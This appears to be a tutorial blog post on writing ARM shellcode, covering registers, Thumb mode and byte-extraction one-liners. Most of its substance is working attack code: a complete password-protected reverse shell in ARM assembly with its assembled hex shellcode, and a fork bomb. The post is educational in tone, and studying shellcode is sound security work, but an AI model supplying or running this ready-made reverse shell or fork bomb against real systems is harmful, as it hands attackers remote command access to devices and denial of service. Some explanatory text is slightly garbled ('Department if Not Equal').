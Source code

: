 ```yaml
---
title: Writing ARM Shellcodes
date: 2022-9-26
layout: single
classes: wide
tags:
  - Assembly
  - Pwn
  - Shellcode
--- 
```


This first post will teach you how to write shellcodes in ARM.

## Shellcode Writing Basics

**Registers:**
- `R0-R10` : General Purpose Register
- `R11`    : Frame Pointer (FP)
- `R12`    : Intra Procedural Call (IPC)
- `R13`    : Stack Pointer (SP)
- `R14`    : Link Register (LR)
- `R15`    : Program Counter/Instruction Pointer (PC)


ARM has 2 modes, the Thumb mode has instructions in 16 bits and the ARM mode has instructions in 32 bits.

to switch in Thumb mode here is what you have to do : 
```asm
 add r0, pc, #1
 bx  r0
// le code qui suivera sera en thumb mode
```
in a first time we add 1 to PC (Program Counter) then we put the result in r0. For the 2nd instruction we use BX (Branch & Exchange) in r0. If LSB=1 (low weight bit) then we are in thumb mode.

![](https://i.imgur.com/z7tNUe5.png)




several techniques exist to parse a shellcode:

1 - usage of awk
```bash
for i in $(objdump -d hello | grep "^ "|awk -F"[\t]" '{print $2}'); do echo -n ${i:6:2}${i:4:2}${i:2:2}${i:0:2};done| sed 's/.\{2\}/\\x&/g'
```
2 - usage of regex + **addition of double quotes**
```bash
objdump -d hello |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
3 - usage of **hexdump** and **objcopy**
```bash
objcopy -O binary fichier.bin fichier.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' fichier.dump
```

![](https://i.imgur.com/VUjjIrl.png)



### Reverse Shell in ARM

![](https://i.imgur.com/xbUxAgq.png)

here is how to make a structure in ARM : 

```arm
adr r1, _sockaddr @ sockaddr struct 
...

_sockaddr: 
 	.hword 2 @ sin_family 
 	.hword 0x5c11 // sin_port 4444
 	.word 0x100007f @ sin_addr 127.0.0.1
 	.byte 0,0,0,0,0,0,0,0 @ sin_zero 
```
then we use dup2() to redirect the standard outputs.

### Password-Protected Reverse Shell

```arm
.section .text
.global _start
_start:

.arm
    add   r3, pc, #1
    bx    r3

.thumb

    mov   r0, #2
    mov   r1, #1
    eor   r2, r2
    mov   r7, #200
    add   r7, #81
    svc   #1
mov   r10, r0 
    adr   r1, target
    strb  r2, [r1, #1]
    strb  r2, [r1, #5]
    strb  r2, [r1, #6] 
    mov   r2, #16
    add   r7, #2  
    svc   #1
    push  {r1}
    mov   r1, sp
    mov   r2, #4
    mov   r7, #3
    .read_pass:
        mov   r0, r10
        svc   #1
    .check_pass:
        ldr   r3, pass
        ldr   r4, [r1]
        eor   r3, r3, r4
    bne .read_pass
    mov   r1, #2 
    mov   r7, #63    
    .loop_stdio:
        mov   r0, r10
        svc   #1
        sub   r1,#1
    bpl .loop_stdio
    adr   r0, command
    eor   r2, r2
    eor   r1, r1
    strb  r2, [r0, #7]
    mov   r7, #11 
    svc   #1

target:
    .ascii "\x02\xff"  
    .ascii "\x11\x5c"
    
    .byte 127,255,255,1 
    
command: .ascii "/bin/sh?"
pass: .ascii "RistBS=aker"
```

if you didn't know, the registers from r0 to r10 are general purpose registers, the register r7 is used to identify the NR of the syscall.

This ascii character `x02\xff\x11\x5c` shows that we are using the TCP proto in IPv4 on port 4444.

**`.read_pass` & `.check_pass` Function:**

for the read function we will just use the C Function: `read(sourcefd, destbuffer, amount)`

- `eor r3, r3, r4` = *r3=r3^r4*
- `bne .read_pass` (Department if Not Equal) equivalent to JNE in x86. This instruction will jump to reading the mdp if it is not equal to the first args passed in r1. (address of r1 retrieved and stored in r4)


```bash
as ARM-reverse-shell.s -o ARM-reverse-shell.o && ld -N ARM-reverse-shell.o -o ARM-reverse-shell && objcopy -O binary ARM-reverse-shell ARM-reverse-shell.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' ARM-reverse-shell.dump

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x82\x46\x0e\xa1\x4a
\x70\x4a\x71\x8a\x71\x10\x22\x02\x37\x01\xdf\x02\xb4\x69\x46\x04\x22\x03\x27\x50\x46\x01\xdf\x0b\x4b\x0c\x68\x63\x40\xf9\xd1\x02\x21\x3f\x27\x50\x46\x01\xdf\x01\x39\xfb\xd5\x04\xa0\x52\x40\x49\x40\xc2
\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\x7f\xff\xff\x01\x2f\x62\x69\x6e\x2f\x73\x68\x3f\x53\x35\x39\x21
```

> Source : https://github.com/alanvivona/pwnshop/blob/master/src/0x15-ARM-shellcode/ARM-reverse-shell-with-auth.s


### Final test : ForkBomb


| NR | Syscall Name | %r7      |  arg0 (%r0)       |
| ---- |:----------------------- | --- | ----
| 2      | fork | 0x02 |    - |

```arm
.text
.global .start

.start:
	.code 32   
	add r3, pc, #1	
	bx r3

	.code 16
	.loop:
		eor r7, r7 
		add r7, #2
		svc #1
		mov r8, r8
		bl .loop
```

![](https://i.imgur.com/GcsZD2P.png)


### useful ressources : 
- https://www.youtube.com/watch?v=9tx293lbGuc
- https://www.youtube.com/watch?v=c_jUELOScLc

